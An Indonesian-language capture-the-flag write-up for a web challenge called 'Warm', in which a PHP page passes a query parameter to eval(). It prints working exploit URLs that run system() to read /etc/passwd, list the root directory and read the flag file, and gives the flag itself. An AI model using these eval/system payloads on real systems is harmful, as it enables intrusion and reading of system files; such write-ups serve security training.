




# Warm
[http://146.190.202.192:10003/](http://146.190.202.192:10003/)

Pemanasan itu penting, ingat itu baik baik

#webexp #wu #php #commandinjection #pembinaan-gelatik-laos-25
___


Terdapat source code php sederhana dengan point-point berikut:
- Apabila mengakses `?__=`, function `eval()` akan menjalankan string yang kita masukkan.
- selain itu akan menampilkan `__file__` yang kita lihat diawal chall.

Kerentanan pada web ini termasuk pada Command Injection, apalagi terdapat function `eval()` yang memungkinkan kita untuk mengeksekusi perintah.

Gunakan function seperti `exec()`, `shell_exec()` atau `system()` untuk mencoba mengakses file server.

Ketika menggunakan `system()`, berhasil mendapatkan tampilan
```
http://146.190.202.192:10003/?__=system(%22cat%20/etc/passwd%22);
```



Sekarang, coba untuk menjelajah root.
```
http://146.190.202.192:10003/?__=system(%22ls%20/%22);
```



Terdapat file yang bernama `flag.txt`, tinggal cek aja.
```
http://146.190.202.192:10003/?__=system(%22cat%20/flag.txt%22);
```



> **LAOS{Pemanasan_dulu_gak_sehh_kawannn}**